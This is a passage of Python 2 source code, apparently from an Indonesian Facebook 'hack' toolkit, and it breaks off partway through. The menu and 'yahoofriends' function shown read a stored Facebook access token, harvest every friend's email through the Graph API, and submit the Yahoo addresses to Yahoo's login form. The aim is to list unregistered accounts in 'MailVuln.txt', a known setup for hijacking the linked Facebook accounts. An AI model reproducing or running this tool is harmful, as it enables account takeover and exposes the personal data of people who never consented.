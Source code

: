 	go = raw_input("\033[1;97m╚═\033[1;91mD \033[1;97m")
	if go =="":
		print "\033[1;91m[!] Wrong"
		yahoo_pilih()
	elif go =="1":
		yahoofriends()
	elif go =="2":
		yahoofromfriends()
	elif go =="3":
		yahoomember()
	elif go =="4":
		yahoolist()
	elif go =="0":
		menu_hack()
	else:
		print "\033[1;91m[!] Wrong"
		yahoo_pilih()
		
##### LIST FRIEND #####
def yahoofriends():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('reset')
	print logo
	mpsh = []
	jml = 0
	jalan('\033[1;91m[✺] \033[1;92mGetting email friend \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/me/friends?access_token='+toket)
	kimak = json.loads(teman.text)
	save = open('out/MailVuln.txt','w')
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()